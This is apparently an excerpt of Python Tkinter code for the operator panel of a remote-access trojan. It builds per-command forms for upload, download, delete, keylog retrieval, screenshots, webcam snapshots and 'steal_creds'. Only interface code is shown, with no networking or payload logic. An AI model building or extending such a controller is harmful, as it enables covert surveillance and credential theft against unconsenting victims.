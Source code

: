     # Show command-specific form in the main panel
    def show_command_form(self, cmd):
        for widget in self.form_panel.winfo_children():
            widget.destroy()
        self.current_command = cmd
        if cmd == "upload":
            tk.Label(self.form_panel, text="Choose file to upload:", bg=MAIN_BG, fg=ACCENT, font=FONT_BOLD).pack(side="left")
            tk.Button(self.form_panel, text="Browse", font=FONT, bg=BTN_BG, fg=TEXT_COLOR, activebackground=ACCENT, relief="flat", command=self.upload_file).pack(side="left", padx=8)
        elif cmd == "download":
            tk.Label(self.form_panel, text="Filename to download:", bg=MAIN_BG, fg=ACCENT, font=FONT_BOLD).pack(side="left")
            self.download_entry = tk.Entry(self.form_panel, width=28, font=FONT, bg=ENTRY_BG, fg=ENTRY_FG, insertbackground=ACCENT, bd=0)
            self.download_entry.pack(side="left", padx=8)
            tk.Button(self.form_panel, text="Download", font=FONT, bg=BTN_BG, fg=TEXT_COLOR, activebackground=ACCENT, relief="flat", command=self.download_file).pack(side="left")
        elif cmd == "delete":
            tk.Label(self.form_panel, text="Path to delete:", bg=MAIN_BG, fg=ACCENT, font=FONT_BOLD).pack(side="left")
            self.delete_entry = tk.Entry(self.form_panel, width=28, font=FONT, bg=ENTRY_BG, fg=ENTRY_FG, insertbackground=ACCENT, bd=0)
            self.delete_entry.pack(side="left", padx=8)
            tk.Button(self.form_panel, text="Delete", font=FONT, bg=BTN_BG, fg=TEXT_COLOR, activebackground=ACCENT, relief="flat", command=self.delete_path).pack(side="left")
        elif cmd in ("get_keylog", "screenshot", "webcam_snap", "steal_creds"):
            tk.Button(self.form_panel, text=f"Run {cmd.title().replace('_', ' ')}", font=FONT_BOLD, bg=ACCENT, fg="#fff", activebackground=BTN_ACTIVE_BG, relief="flat", command=lambda: self.run_simple_command(cmd)).pack(side="left")
        elif cmd == "exit":
            tk.Button(self.form_panel, text="Disconnect", font=FONT_BOLD, bg="#e84118", fg="#fff", activebackground="#c23616", relief="flat", command=self.disconnect).pack(side="left")

    # Log output for a specific command tab
    def log_command(self, cmd, msg):
        def _log():
            txt = self.command_logs[cmd]
            txt.config(state="normal")
            txt.insert("end", msg + "\n")
            txt.see("end")
            txt.config(state="disabled")
        self.master.after(0, _log)

    # Set the status label text
    def set_status(self, msg):
        self.status_var.set(msg)
